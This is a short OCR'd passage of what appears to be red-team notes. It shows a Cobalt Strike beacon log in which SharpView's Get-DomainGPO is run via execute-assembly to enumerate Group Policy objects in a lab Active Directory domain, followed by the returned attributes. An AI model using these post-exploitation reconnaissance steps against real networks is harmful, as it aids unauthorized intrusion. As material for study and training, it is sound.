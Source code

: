 ```shell
dnshostname                    : WSADM.corp.local



dnshostname                    : WEB-WIN01.corp.local

```
Get-GroupPolicy
```shell
[10/06 16:17:52] beacon> execute-assembly /root/tooltesting/SharpView.exe Get-DomainGPO | select displayName
[10/06 16:18:38] [*] Tasked beacon to run .NET program: SharpView.exe Get-DomainGPO | select displayName
[10/06 16:18:39] [+] host called home, sent: 843887 bytes
[10/06 16:18:41] [+] received output:
get-domain

[Get-DomainSearcher] search base: LDAP://DC01.corp.local/DC=corp,DC=local

[Get-DomainGPO] filter string: (&(objectCategory=groupPolicyContainer))


[10/06 16:18:47] [+] received output:
objectguid                     : b27fd1e1-b64e-4d05-9920-82a03dec5c83

name                           : {31B2F340-016D-11D2-945F-00C04FB984F9}

distinguishedname              : CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=corp,DC=local

whencreated                    : 3/28/2018 12:37:01 AM

whenchanged                    : 1/31/2020 3:08:15 PM

cn                             : {{31B2F340-016D-11D2-945F-00C04FB984F9}}

objectclass                    : {top, container, groupPolicyContainer}

displayname                    : Default Domain Policy

gpcfunctionalityversion        : 2

usnchanged                     : 241750

showinadvancedviewonly         : True

gpcmachineextensionnames       : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}][{B1BE8D72-6EAC-11D2-A4EA-00C04F79F83A}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}][{D76B9641-3288-4F75-942D-087DE603E3EA}{D02B1F72-3407-48AE-BA88-E8213C6761F1}]

instancetype                   : 4

versionnumber                  : 44

gpcfilesyspath                 : \\corp.local\sysvol\corp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}

usncreated                     : 5900

flags                          : 0

```